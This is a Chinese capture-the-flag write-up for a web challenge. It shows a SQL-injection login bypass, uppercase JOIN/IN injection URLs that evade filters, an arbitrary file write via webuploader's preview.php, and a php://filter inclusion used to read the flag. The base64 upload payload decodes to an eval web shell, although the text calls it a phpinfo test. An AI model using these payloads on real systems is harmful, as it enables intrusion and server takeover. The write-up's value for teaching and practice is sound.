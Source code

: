 ## 题目考点

题目考察选手渗透

## 题解
这题题目是取材自真实的渗透网站，当时在做渗透的时候，也是大概这样的一个过程，就给出题目了。

首先发现是一个登录界面
![](./1.png)
发现有www.zip
![](./2.png)
审计代码

代码中其实有webuploader和一些很可疑的地方，但是奇怪的是在网站中并没有这些目录，因此最开始是不能用rce之类的洞打的

源码Login.php里面有登录函数
![](./3.png)
在源码里看到common/Function里的登录函数：
![](./4.png)

登录函数调用了GetValue函数

![](./6.png)

在GetValue里面用了P函数做post输入

![](./5.png)

做了一定的过滤，但是没有过滤单引号

结合GetValue可以想到利用select查询是的结果和password的md5强制相等

注入的poc

user: 1' union select "c4ca4238a0b923820dcc509a6f75849b"  #

password:1

然后登录进去

![](./7.png)

这个地方注销账号可以访问logout.php，但是这个没有啥用

下一步，观察到sblist.php

![](./8.png)

在代码中有这样一段
```
<?php 
			$a = mysqli_query($GLOBALS['link'],"select * from mac where id>0$w order by id desc limit $s,$f");
			$a2 = mysqli_query($GLOBALS['link'],"select count(id) from mac where id>0$w order by id desc");
			$row2 = mysqli_fetch_array($a2);
			$ps=ceil($row2[0]/$f);
```

这里可以拼接语句进行注入，但是由于P和G函数都过滤了逗号，没有过滤引号，因此可以想着是join注入

```
http://192.168.43.233/meituan/www/sblist.php?u=1%27)%20or%200%20union%20select%20*%20from%20((select%201)a%20JoIN%20(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema%20in%20(database()))b%20JoIN%20(select%203)c%20JoIN%20(select%204)d%20JoIN%20(select%205)e%20JoIN%20(select%205)f%20JoIN%20(select%205)g%20JoIN%20(select%205)h%20%20)--+
```
这个地方还有两个过滤需要注意，一个是=号的过滤，这个是源码里面就有的，因此只能想like,regexp,in这三种注入方式，同时我的后台黑盒里面过滤了like和regexp，因此只能用in，这个过滤不复杂，只要选手试过了就一定能出来

另一个过滤是我后台代码和源码里面有一些不一样在join过滤了小写，所以需要选手用大写绕过，当然这个也很简单，如果选手想到了join，但是发现绕不过去，我会其实说代码做了过滤，没有任何脑洞，依然是join加in的基本操作，只是换了个大小写。

```
I have done some filtering in the background. It is very simple. It can come out if you do it normally. You haven not seen the hard part yet
```

```
u=1%27)%20or%200%20union%20select%20*%20from%20((select%201)a%20JoIN%20(select%20*%20from%20hint)b%20JoIN%20(select%203)c%20JoIN%20(select%204)d%20JoIN%20(select%205)e%20JoIN%20(select%205)f%20JoIN%20(select%205)g%20JoIN%20(select%205)h%20%20)--+
```

之后就可以注入出来一个提示
see_the_dir_956c110ef9decdd920249f5fed9e4427

看到原来956c110ef9decdd920249f5fed9e4427网站目录下还有一个一模一样的网站，并且有缺失的lib目录，也能找到ueditor和webuploader，ueditor在php4以上是不可以做任意文件上传的，因此我们可以去找webuploader的目录。

当时渗透的时候也是这样，发现了主站下还有个1目录，找到了他留下的网站备份，里面有一个webuploader。

里面有server和preview.php


![](./9.png)

这里是一个任意文件写入
```
首先$src变量接受了任意post的数据，但是做了一个正则过滤，#^data:image/(+);base64,(.*)$#表达式意思是只能输入data:image/*;base64+任意字符串的形式，其实这里应该就是为了接受一个图片，也是属于网站逻辑的正常行为，因为图片一般用base64编码进行压缩传递会比较快速，但是这里就是因为php://input流任意post数据导致了漏洞的产生。
```
![](./10.png)
这里可以知道，$filename的值为md5我们的base64值加上可控的文件后缀php。$filePath则是DIRECTORY_SEPARATOR这个php内置变量（即路径分隔符/）加上我们的文件名$filename变量。也就是./$filename，$filepath可以理解为当前目录下。
之后，会判断是否存在这样的一个文件，如果不存在，则会执行file_put_contents函数将我们的$data写入$previewUrl.'preview/。也就是/Public/Plugins/webuploader/server/preview目录。
综上所述，这里的src是我们可控的，所以$type和$data都是由我们可控的，最终构成一个任意文件上传。
所以我们只要访问ip/Public/Plugins/webuploader/server/preview.php这个url，然后post如下数据：
```
data:image/php;base64, PD9waHAKcGhwaW5mbygpOwpAZXZhbCgkX1BPU1RbJ2NtZCddKTsKPz4=
```
就可以写入我们的测试文件了，PD9waHAgcGhwaW5mbygpOz8+这个是
```
<?php phpinfo(); ?>
```
的base64编码形。
![](./11.png) 

打进去发现给了提示，因为这里共享环境不想让选手拿权限
```
!!!! Congratulations on infiltrating here, but it's a pity that someone has infiltrated and left a Trojan, do not continue here , please see the e98a4571cf72b798077d12d6c94629.php !!!!!                 
```

我们看当前目录下的e98a4571cf72b798077d12d6c94629.php

```
<?php
highlight_file(__FILE__);
$file=$_GET["file"];
$source="php://filter//convert.iconv.UCS-4LE.UCS-4BE/resource=".$file;
include($source);
```

这是四位一反转的文件包含，那么我们可以直接读取flag

flag{g879aee87y8501c1deab01c7b54f2fa9}.

只所以用4位一反转是因为希望如果有非预期直接读取/flag也看不懂

/flag文件如下：
galf78g{eea98y78c105aed1c10b45b7af2f .}9

只有通过最后的四位一反转才能读到